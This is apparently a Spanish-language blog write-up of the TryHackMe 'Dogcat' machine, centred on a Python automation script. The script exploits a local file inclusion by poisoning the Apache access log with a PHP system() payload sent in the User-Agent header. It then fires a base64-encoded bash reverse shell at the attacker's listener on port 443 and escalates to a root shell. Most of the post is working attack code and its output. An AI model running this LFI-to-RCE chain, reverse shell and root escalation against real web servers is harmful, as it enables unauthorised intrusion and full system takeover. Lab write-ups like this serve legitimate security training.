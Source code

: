```yaml
---
layout: single
title: Dogcat (AutoPWM) - Try Hack Me
excerpt: "En esta máquina se abusa de un local file inclusion para efectuar un log poisoning logrando RCE luego de modificar el user agent inyectando instrucciones maliciosas, pero en este post te muestro un pequeño script autopwm hecho en python, el cual nos automatiza la intrusión y escalada de privilegios para convertirnos en root"
date: 2021-08-29
classes: wide
header:
  teaser: /assets/images/thm-autopwm-dogcat/Dogcat.png
  teaser_home_page: true
  icon: /assets/images/tryhackme.png
categories:
  - tryhackme
  - autopwm
  - scripting
tags:
  - python scripting
  - autopwm
  - web
  - lfi
  - log poisoning
  - user agent
---
```


<p align="center">
<img src="/assets/images/thm-autopwm-dogcat/img_header.png">
</p>

Esta es una máquina de dificultad media bastante sencilla, así que quise hacer un script autopwm que automatizara tanto la intrusión como la escalada de privilegios

Antes de usarlo se debe de ejecutar el siguite comando, para luego introducir el otput en el script:

```bash
~$> echo "/bin/bash -c 'bash -i >& /dev/tcp/[TU_IP]/443 0>&1'" | base64
L2Jpbi9iYXNoIC1jICdiYXNoIC1pID4mIC9kZXYvdGNwLzEwLjkuMjQyLjIxNy80NDMgMD4mMScK
```

Se modifica el payload y la url:

```bash
#!/usr/bin/python3

import signal, time, os
from pwn import *

def def_handler(sig, frame):
	print("\n[!] Exiting...\n")
	sys.exit(1)

signal.signal(signal.SIGINT, def_handler)

lport = 443
payload = 'echo "[CADENA_EN_BASE64]" | base64 -d | bash' # <- CHANGE THIS
url = 'http://[MACHINE_IP]/?view=./dog/../../../../../../../var/log/apache2/access.log&ext=&cmd=%s' % (payload)

def makeRequest():
	headers = {
	    'User-Agent': '<?php system($_GET[\'cmd\']); ?>'
	}

	r = requests.get(url, headers=headers)

if __name__ == '__main__':
	try:
		log.info("Gaining shell as www-data user")
		time.sleep(1)
		threading.Thread(target=makeRequest).start()
	except Exception as e:
		log.failure(str(e))

	shell = listen(lport, timeout=20).wait_for_connection()

	if shell.sock is None:
		log.failure("Cudn't connect")
	else:
		log.info("Obteining root")
		time.sleep(1)
		shell.sendline("export TERM=xterm; export SHELL=bash; /usr/bin/env /bin/bash -p")
		shell.interactive()

```

Y una vez ejecutado el script obtenemos shell como root:

```bash
~$>./Dogcat-AutoPWM.py
```
```bash
[*] Gaining shell as www-data user
[+] Trying to bind to :: on port 443: Done
[+] Waiting for connections on :::443: Got connection from ::ffff:10.10.52.7 on port 35786
[*] Obteining root
[*] Switching to interactive mode
$
```
```bash
$ whoami
root
```
